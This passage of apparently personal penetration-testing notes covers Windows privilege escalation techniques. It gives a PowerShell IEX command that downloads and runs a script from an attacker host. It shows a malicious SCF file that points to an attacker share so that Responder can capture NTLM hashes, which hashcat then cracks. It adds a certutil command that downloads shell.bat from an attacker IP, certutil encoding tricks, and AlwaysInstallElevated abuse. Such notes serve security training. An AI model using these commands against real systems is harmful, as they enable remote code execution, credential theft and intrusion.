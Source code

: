 We can host the script on our attack machine and execute it on the target host as follows:
```console
PS C:\zeropio> IEX (iwr 'http//<OUR IP>/procmon.ps1') 
```

A **Shell Command File** (**SCF**) is used by Windows Explorer to move up and down directories, show the Desktop, ... In this example, let's create the following file and name it something like **@Inventory.scf** (`@` make the file at the top of the directory):
```
[Shell]
Command=2
IconFile=\\<OUR IP>\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

Start the Responder:
```console
zero@pio$ sudo responder -wrf -v -I tun0
```

We could then attempt to crack the password hash offline using Hashcat to retrieve the cleartext:
```console
zero@pio$ hashcat -m 5600 hash <WORDLIST>
```

## Miscellaneous Techniques 

### Living Off The Land Binaries and Scripts (LOLBAS) 

The [LOLBAS project](https://lolbas-project.github.io/) documents binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems. For example [certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), which we can use to download files:
```console
PS C:\zeropio> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

We can use the `-encode` flag to encode a file using base64 on our Windows attack host and copy the contents to a new file on the remote system:
```console
C:\zeropio> certutil -encode file1 encodedfile
```

Once the new file has been created, we can use the `-decode` flag to decode the file:
```console
C:\zeropio> certutil -decode encodedfile file2
```

A binary such as [rundll32.exe](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/) can be used to execute a DLL file.


### Always Install Elevated 

This setting can be set via Local Group Policy by setting **Always install with elevated privileges** to Enabled under the following paths:
- `Computer Configuration\Administrative Templates\Windows Components\Windows Installer`{: .filepath}
- `User Configuration\Administrative Templates\Windows Components\Windows Installer`{: .filepath}
